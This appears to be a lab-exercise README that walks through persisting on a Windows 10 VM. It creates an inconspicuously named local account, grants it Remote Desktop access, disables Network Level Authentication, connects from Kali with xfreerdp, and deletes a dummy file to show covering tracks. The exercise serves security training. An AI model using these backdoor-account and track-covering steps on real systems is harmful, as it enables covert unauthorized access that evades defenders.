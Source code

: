 # Persist On A Windows Machine With A Malicious User Account
Creating a malicious local account is a simple way to install a backdoor, often going unnoticed in poorly managed networks. Even if detected, it may remain due to concerns over breaking functionality. Skilled attackers may avoid giving the account admin rights, opting instead to plant a privilege escalation vulnerability for future use

## Tasks
- Create a user with an inconspicuous name that would seamlessly blend into an organization in a VM
- Initiate an RDP connection to the target system from a separate machine, utilizing the malicious account's credentials to showcase successful access
- Navigate the system's directories to emphasize the subtle nature of the malicious account's presence and the potential challenges in detection
- Generate a dummy file in a sensitive directory to simulate a security breach, demonstrating how a malicious actor might misuse this access for unauthorized file manipulation
- Show how the malicious account can be used to cover tracks, such as deleting the dummy file

## Solutions With Scripts
1. Open PowerShell as Administrator in Windows 10 VM
2. Add a user with a non-suspicious name such as `svc_network` or `backup_admin`
   ```
   net user svc_network password123 /add
   ```
3. Add the user to a specific group like "Users" and "Remote Desktop Users". Avoid giving it administrative privileges to make the account less suspicious
   ```
   net localgroup Users svc_network add
   net localgroup "Remote Desktop Users" svc_network /add
   ```
   To confirm that `svc_network` user has been added into "Remote Desktop Users" group, go to Control Panel > System and Security. Under System, click Allow remote access. A System Properties window will appear. Click Select Users... and confirm that svc_network is in the allowed list
   ![image](https://github.com/user-attachments/assets/82b445d6-d9ca-4ccb-91cd-0af5450bb15d)
5. To enable RDP (Remote Desktop Protocol) on Windows 10 VM, go to Settings > System > Remote Desktop (left panel). Turn on Enable Remote Desktop. In the Advanced settings,  uncheck the Network Level Authentication as shown below
   ![image](https://github.com/user-attachments/assets/2775be67-8ec5-46b1-842a-2b6fefe6dc84)
6. Allow RDP through Windows Firewall and ensure that Remote Desktop is checked for both private and public networks
7. To initiate an RDP connection from Kali Linux, install `xfreerdp` using the following commands
   ```
   sudo apt update
   sudo apt install freerdp2-x11
   ``` 
8. Enable the default port for RDP (3389) in Kali Linux using the each of the commands below
   ```
   sudo ufw status
   sudo ufw allow 3389/tcp
   sudo ufw reload
   sudo ufw status
   ```
9. Use the malicious account credentials (`svc_network`) to connect to Windows 10 VM via RDP
   ```
   sudo xfreerdp /u:svc_network /p:password123 /v:192.168.1.21 /dynamic-resolution /cert:ignore /sec:tls
   ```
10. To simulate a security breach, create a dummy file in a sensitive directory like C:\Program Files or C:\Windows\Temp. Run the following command
   ```
   echo "Sensitive data" > C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. To cover up the tracks, delete the dummy file
   ```
   del C:\Windows\Temp\dummymaliciousfile.txt
   ```
11. Close the RDP connection by logging out of the RDP session from Kali Linux by pressing Ctrl+C to end the xfreerdp session
12. To remove the created account in Windows 10 VM, run the command in PowerShell opened with administrator privileges
    ```
    Remove-LocalUser -Name "username"
    ```

